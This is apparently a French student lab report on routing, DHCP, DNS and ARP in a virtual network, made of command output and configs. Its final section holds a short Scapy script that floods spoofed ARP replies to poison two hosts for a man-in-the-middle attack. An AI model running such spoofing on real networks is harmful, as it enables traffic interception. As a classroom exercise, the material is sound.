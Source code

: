 # TP2 : Routage, DHCP et DNS
  

# I. Routage
  

🌞 **Configuration de `router.tp2.efrei`**

La config :
```
[root@localhost ~]# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:9f:aa:bd brd ff:ff:ff:ff:ff:ff
    inet 192.168.122.56/24 brd 192.168.122.255 scope global dynamic noprefixroute enp0s3
       valid_lft 3533sec preferred_lft 3533sec
    inet6 fe80::a00:27ff:fe9f:aabd/64 scope link
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:15:7f:f6 brd ff:ff:ff:ff:ff:ff
```
Le ping fonctionne :
```
[diego@localhost ~]$ ping 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=115 time=30.7 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=115 time=28.2 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=115 time=31.4 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=115 time=29.1 ms
``` 

🌞 **Configuration de `node1.tp2.efrei`**

Conf:
```
VPCS> show

NAME   IP/MASK              GATEWAY           MAC                LPORT  RHOST:PORT
VPCS1  10.2.1.1/24          255.255.255.0     00:50:79:66:68:00  20006  127.0.0.1:20007
       fe80::250:79ff:fe66:6800/64

```
```
VPCS> ping 10.2.1.254/24

84 bytes from 10.2.1.254 icmp_seq=1 ttl=64 time=7.378 ms
84 bytes from 10.2.1.254 icmp_seq=2 ttl=64 time=5.540 ms
84 bytes from 10.2.1.254 icmp_seq=3 ttl=64 time=5.916 ms
84 bytes from 10.2.1.254 icmp_seq=4 ttl=64 time=5.287 ms
84 bytes from 10.2.1.254 icmp_seq=5 ttl=64 time=5.872 ms
```
Ajout de la route par défaut
```
VPCS : 10.2.1.1 255.255.255.0 gateway 10.2.1.254
```

```
VPCS> ping 8.8.8.8

84 bytes from 8.8.8.8 icmp_seq=1 ttl=114 time=39.631 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=114 time=40.686 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=31.989 ms
84 bytes from 8.8.8.8 icmp_seq=4 ttl=114 time=34.715 ms
```
Traceroute :
```
VPCS> trace 8.8.8.8
trace to 8.8.8.8, 8 hops max, press Ctrl+C to stop
 1   10.2.1.254   5.252 ms  6.293 ms  4.752 ms
 2   192.168.122.1   11.587 ms  8.636 ms  7.173 ms
 3   10.0.3.2   12.147 ms  11.863 ms  11.110 ms
 4     *  *  *
 5     *  *  *
 6     *  *  *
 7     *  *  *
 8     *  *  *
```

🌞 **Afficher la CAM Table du switch**

```
VPCS> show mac address-table
-------------------------------------------

Vlan    Mac Address       Type        Ports
----    -----------       --------    -----
   1    0050.7966.6800    DYNAMIC     Et0/1
   1    0800.2715.7ff6    DYNAMIC     Et0/0
Total Mac Addresses for this criterion: 2
```

# II. Serveur DHCP  

🌞 **Install et conf du serveur DHCP** sur `dhcp.tp2.efrei`
```
[root@localhost ~]# cat /etc/dhcp/dhcpd.conf

authoritative;

subnet 10.2.1.0 netmask 255.255.255.0 {
    range 10.2.1.10 10.2.1.253;
    option broadcast-address 10.2.1.255;
    option routers 10.2.1.254;
    option domaine-name-servers 1.1.1.1;
}
```

🌞 **Test du DHCP** sur `node1.tp2.efrei`
```
Executing the startup file

DDORA IP 10.2.1.10/24 GW 10.2.1.254

Hostname is too long. (Maximum 12 characters)

VPCS> show ip

NAME        : VPCS[1]
IP/MASK     : 10.2.1.10/24
GATEWAY     : 10.2.1.254
DNS         : 
DHCP SERVER : 10.2.1.253
DHCP LEASE  : 43185, 43200/21600/37800
MAC         : 00:50:79:66:68:00
LPORT       : 20005
RHOST:PORT  : 127.0.0.1:20006
MTU         : 1500

VPCS>
```
🌟 **BONUS**
```
VPCS> show ip

NAME        : VPCS[1]
IP/MASK     : 10.2.1.10/24
GATEWAY     : 10.2.1.254
DNS         : 1.1.1.1
DHCP SERVER : 10.2.1.253
DHCP LEASE  : 43185, 43200/21600/37800
MAC         : 00:50:79:66:68:00
LPORT       : 20005
RHOST:PORT  : 127.0.0.1:20006
MTU         : 1500

VPCS>
```

🌞 **Wireshark it !**

[échange DORA](échange_DHCP_DORA.pcapng)

# III. ARP
## 1. Les tables ARP
🌞 **Affichez la table ARP de `router.tp2.efrei`**
```
[root@localhost ~]# ip neighbor
10.2.1.253 dev enp0s8 lladdr 08:00:27:bb:d8:e2 REACHABLE
10.2.1.10 dev enp0s8 lladdr 00:50:79:66:68:00 STALE
192.168.122.1 dev enp0s3 lladdr 52:54:00:24:5d:59 REACHABLE
```
🌞 **Capturez l'échange ARP avec Wireshark**
[échange ARP](echange_ARP.pcapng)
## 2. ARP poisoning
🌞 **Envoyer une trame ARP arbitraire**
```
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:59:94:8e brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.4/24 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 86371sec preferred_lft 86371sec
    inet6 fe80::a00:27ff:fe59:948e/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
```
🌞 **Mettre en place un ARP MITM**

# à finir !!

🌞 **Capture Wireshark `arp_mitm.pcap`**

[arp_mitm](arp_mitm.pcap.pcapng)
🌞 **Réaliser la même attaque avec Scapy**
```
from scapy.all import *

while True:
        send(ARP(pdst="10.2.1.10", psrc="10.2.1.254"))
        send(ARP(pdst="10.2.1.254", psrc="10.2.1.10"))
```